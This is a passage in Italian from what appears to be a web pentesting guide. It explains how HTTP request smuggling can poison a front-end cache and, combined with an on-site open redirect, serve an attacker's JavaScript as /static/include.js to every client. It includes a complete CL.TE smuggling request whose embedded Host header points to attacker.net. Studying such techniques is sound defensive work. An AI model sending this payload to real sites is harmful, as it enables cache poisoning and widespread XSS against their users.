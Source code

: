 Il web cache poisoning può essere eseguito se qualsiasi componente dell'**infrastruttura front-end memorizza nella cache i contenuti**, tipicamente per migliorare le prestazioni. Manipolando la risposta del server, è possibile **avvelenare la cache**.

In precedenza, abbiamo osservato come le risposte del server potessero essere modificate per restituire un errore 404 (fare riferimento a [Basic Examples](#basic-examples)). Allo stesso modo, è possibile ingannare il server per consegnare il contenuto di `/index.html` in risposta a una richiesta per `/static/include.js`. Di conseguenza, il contenuto di `/static/include.js` viene sostituito nella cache con quello di `/index.html`, rendendo `/static/include.js` inaccessibile agli utenti, potenzialmente portando a un Denial of Service (DoS).

Questa tecnica diventa particolarmente potente se viene scoperta una **vulnerabilità di Open Redirect** o se c'è un **reindirizzamento in loco a un open redirect**. Tali vulnerabilità possono essere sfruttate per sostituire il contenuto memorizzato nella cache di `/static/include.js` con uno script sotto il controllo dell'attaccante, abilitando essenzialmente un attacco Cross-Site Scripting (XSS) diffuso contro tutti i client che richiedono il `/static/include.js` aggiornato.

Di seguito è riportata un'illustrazione di sfruttamento del **cache poisoning combinato con un reindirizzamento in loco a un open redirect**. L'obiettivo è alterare il contenuto della cache di `/static/include.js` per servire codice JavaScript controllato dall'attaccante:
```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
Nota la richiesta incorporata che mira a `/post/next?postId=3`. Questa richiesta verrà reindirizzata a `/post?postId=4`, utilizzando il **valore dell'intestazione Host** per determinare il dominio. Alterando l'**intestazione Host**, l'attaccante può reindirizzare la richiesta al proprio dominio (**reindirizzamento in loco a reindirizzamento aperto**).

Dopo un **avvelenamento del socket** riuscito, dovrebbe essere avviata una **richiesta GET** per `/static/include.js`. Questa richiesta sarà contaminata dalla precedente richiesta di **reindirizzamento in loco a reindirizzamento aperto** e recupererà il contenuto dello script controllato dall'attaccante.

Successivamente, qualsiasi richiesta per `/static/include.js` servirà il contenuto memorizzato nella cache dello script dell'attaccante, avviando efficacemente un ampio attacco XSS.

### Utilizzare l'HTTP request smuggling per eseguire la web cache deception <a href="#using-http-request-smuggling-to-perform-web-cache-deception" id="using-http-request-smuggling-to-perform-web-cache-deception"></a>
